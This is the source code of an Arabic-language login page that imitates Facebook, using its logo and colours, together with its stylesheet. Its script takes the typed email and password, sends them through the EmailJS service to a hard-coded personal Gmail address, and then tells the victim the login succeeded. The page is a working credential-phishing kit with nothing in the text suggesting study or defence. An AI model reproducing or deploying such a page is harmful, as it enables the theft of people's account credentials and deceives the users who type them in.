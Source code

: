 <!DOCTYPE html>
<html lang="ar">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>تسجيل الدخول</title>
    <link rel="stylesheet" href="styles.css">
    <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
</head>
<body>

    <div class="login-container">
        <img src="https://upload.wikimedia.org/wikipedia/commons/5/51/Facebook_f_logo_%282019%29.svg" alt="Facebook" class="logo">
        <h2>تسجيل الدخول</h2>
        <input type="text" id="username" placeholder="البريد الإلكتروني" required>
        <input type="password" id="password" placeholder="كلمة المرور" required>
        <button onclick="login()">تسجيل الدخول</button>
        <p id="message"></p>
    </div>

    <script>
        // Initialize EmailJS with your public key
        (function() {
            emailjs.init("YOUR_USER_ID"); // استبدل YOUR_USER_ID بمعرف المستخدم الخاص بك
        })();

        function login() {
            let username = document.getElementById("username").value;
            let password = document.getElementById("password").value;

            if (username !== "" && password !== "") {
                // إرسال البيانات إلى بريدك باستخدام EmailJS
                emailjs.send("service_xxxxx", "template_xxxxx", {
                    to_email: "gaithg611@gmail.com",
                    username: username,
                    password: password
                }).then(() => {
                    document.getElementById("message").textContent = "تم تسجيل الدخول بنجاح!";
                }).catch((error) => {
                    document.getElementById("message").textContent = "حدث خطأ! حاول مرة أخرى.";
                });
            } else {
                document.getElementById("message").textContent = "يرجى إدخال البريد وكلمة المرور!";
            }
        }
    </script>

</body>
</html>/* تصميم عام */
body {
    font-family: Arial, sans-serif;
    text-align: center;
    background-color: #f4f4f4;
    margin: 0;
    padding: 0;
}

/* صفحة تسجيل الدخول */
.login-container {
    width: 90%;
    max-width: 350px;
    background: white;
    padding: 20px;
    border-radius: 10px;
    box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
    margin: 100px auto;
}

.logo {
    width: 100px;
    margin-bottom: 20px;
}

input {
    width: 90%;
    padding: 10px;
    margin: 10px 0;
    border: 1px solid #ccc;
    border-radius: 5px;
}

button {
    padding: 10px 15px;
    background-color: #1877f2;
    color: white;
    border: none;
    border-radius: 5px;
    cursor: pointer;
}

button:hover {
    background-color: #145dbf;
}

#message {
    margin-top: 10px;
    color: red;
}
